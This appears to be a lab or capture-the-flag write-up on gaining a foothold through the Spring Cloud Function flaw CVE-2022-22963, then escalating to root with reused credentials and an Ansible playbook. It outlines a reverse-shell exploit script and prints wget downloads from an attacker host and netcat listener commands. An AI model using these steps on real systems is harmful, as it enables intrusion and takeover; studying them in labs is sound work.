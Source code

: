 ## Intial Foothold
**Abuse Searchor to execute commands**


[Resources]
(https://sysdig.com/blog/cve-2022-22963-spring-cloud/)

### Exploit

```
python3 exploit.py
```
**What does exploit.py do**
- Create a shell.sh file that contains a Python3 one-liner reverse shell.
- Create simple HTTP Server.
- Upload shell.sh to /tmp directory in the target machine using wget.
- Run netcat listener to catch the reverse shell connection.
- Run chmod +x evil.sh, run evil.sh and get reverse shell.
- Do not forget to change IP and Port in exploit.py.

---
## Privilege Escalation:
**SU to phil user using his password located in /home/frank/.m2/settings.xml and use Ansible playbook to ecalate to root**

[Ansible Playbook Exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

### Exploit

- Upload PrivEsc.py to target using wget and python Simple HTTP Server.
  - Run Simple HTTP Server on Attacker Machine.
    
    ```
    python3 http.server 8000
    ```
  - Download PriEsc.py on Target Machine.
    
    ```
    wget http://<Local_IP>:8000/PrivEsc.py
    ```
- Run netcat listener on Attacker Machine

    ```
    nc -nlvp 4444
    ```
- Run PrivEsc.py and wait for Root shell connection it may take a while.

    ```
    python3 PrivEsc.py
    ```
